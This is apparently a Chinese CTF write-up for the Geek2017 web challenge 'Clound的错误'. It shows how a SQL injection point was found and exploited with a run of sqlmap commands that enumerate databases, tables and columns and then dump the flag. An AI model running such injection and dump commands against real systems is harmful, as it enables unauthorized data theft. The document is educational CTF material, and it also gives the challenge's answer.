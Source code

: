 ###  2017-11-18

## Geek2017

# Clound的错误

#### 0x00 [原理]
     kali虚拟机下的命令运用，sqlmap的使用
#### 0x01 [目的]
     了解kali系统下sqlmap的使用
#### 0x02 [环境]
     kali
#### 0x03 [工具]
     sqlmap
#### 0x04 [步骤]

1.首先打开address，是一张可爱的图片啊啊啊啊～并没有什么提示

![](/files_for_wp/clound1.png)

2.右键查看源代码，有注入点的提示： sycid=1

![](/files_for_wp/clound2.png)

3.http://game.sycsec.com:2007/?sycid=1

![](/files_for_wp/clound3.png)

出现hint：select * from user where id='1'

4.使用sqlmap注入
  ①检测注入点是否可用:sqlmap -u "http://game.sycsec.com:2007/?sycid=1"  </br>

  ![](/files_for_wp/clound4.png)</br>

  ②暴库:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" --dbs </br>

  ![](/files_for_wp/clound5.png)</br>

  库名：f1ag</br>

  ③暴表:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" -D f1ag --tables</br>

  ![](/files_for_wp/clound6.png)</br>
  
  表名：flag</br>

  ④暴字段:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" -D f1ag -T flag --columns</br>

  ![](/files_for_wp/clound7.png)</br>
  
  字段：f4ag </br>
  ⑤暴字段内容:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" -D f1ag -T flag -C f4ag --dump</br>

  ![](/files_for_wp/clound8.png)</br>
  
  字段内容：SYC{Err0r_sql_inj}</br>

4.flag：SYC{Err0r_sql_inj}

#### 0x05 [总结]
    sqlmap使用

    详细可参考：(https://www.2cto.com/article/201208/151503.html)[手工注入] ， (http://blog.csdn.net/zgyulongfei/article/details/41017493)[sqlmap基本教程]

</br>
</br>
</br>
</br>
</br>






